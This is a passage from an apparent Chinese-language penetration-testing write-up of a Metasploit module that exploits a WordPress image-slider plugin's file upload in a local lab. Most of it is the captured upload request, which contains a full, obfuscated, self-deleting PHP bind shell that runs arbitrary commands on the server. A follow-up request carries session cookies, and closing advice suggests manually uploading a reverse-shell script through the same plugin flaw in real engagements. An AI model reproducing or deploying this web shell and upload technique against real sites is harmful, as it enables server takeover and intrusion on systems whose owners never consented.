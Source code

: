 ```bash
<?php @unlink(__FILE__); /*<?php /**/  @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);  $BDQbE=@ini_get('disable_functions');  if(!empty($BDQbE)){  $BDQbE=preg_replace('/[, ]+/',',',$BDQbE);  $BDQbE=explode(',',$BDQbE);  $BDQbE=array_map('trim',$BDQbE);  }else{  $BDQbE=array();  }    $port=9999;   $scl='socket_create_listen';  if(is_callable($scl)&&!in_array($scl,$BDQbE)){  $sock=@$scl($port);  }else{  $sock=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);  $ret=@socket_bind($sock,0,$port);  $ret=@socket_listen($sock,5);  }  $msgsock=@socket_accept($sock);  @socket_close($sock);   while(FALSE!==@socket_select($r=array($msgsock), $w=NULL, $e=NULL, NULL))  {  $o = '';  $c=@socket_read($msgsock,2048,PHP_NORMAL_READ);  if(FALSE===$c){break;}  if(substr($c,0,3) == 'cd '){  chdir(substr($c,3,-1));  } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {  break;  }else{    if (FALSE !== stristr(PHP_OS, 'win' )) {  $c=$c." 2>&1\n";  }  $PFeofv='is_callable';  $jikigJe='in_array';    if($PFeofv('shell_exec')&&!$jikigJe('shell_exec',$BDQbE)){  $o=`$c`;  }else  if($PFeofv('exec')&&!$jikigJe('exec',$BDQbE)){  $o=array();  exec($c,$o);  $o=join(chr(10),$o).chr(10);  }else  if($PFeofv('system')&&!$jikigJe('system',$BDQbE)){  ob_start();  system($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('passthru')&&!$jikigJe('passthru',$BDQbE)){  ob_start();  passthru($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('popen')&&!$jikigJe('popen',$BDQbE)){  $fp=popen($c,'r');  $o=NULL;  if(is_resource($fp)){  while(!feof($fp)){  $o.=fread($fp,1024);  }  }  @pclose($fp);  }else  if($PFeofv('proc_open')&&!$jikigJe('proc_open',$BDQbE)){  $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);  $o=NULL;  while(!feof($pipes[1])){  $o.=fread($pipes[1],1024);  }  @proc_close($handle);  }else  {  $o=0;  }    }  @socket_write($msgsock,$o,strlen($o));  }  @socket_close($msgsock);  ?>
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="imagetitle"

KSXrN
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="btnsave"

Save Changes
-----------------------------743289811480519521793446209521--
```

接下来模块访问了/wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php

```bash
GET /wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
```

但我们到/wp-content/uploads/wp-responsive-images-thumbnail-slider/发现文件名与模块访问的文件不一致  
导致响应 404 msf 自然就没有接收到 shell  
猜测这是 wordpress 版本差异 文件的命名方式有所不同导致的问题  
在实际渗透中 可以通过插件漏洞手动上传 php\_reverse\_shell.php 然后进行访问反弹 shell

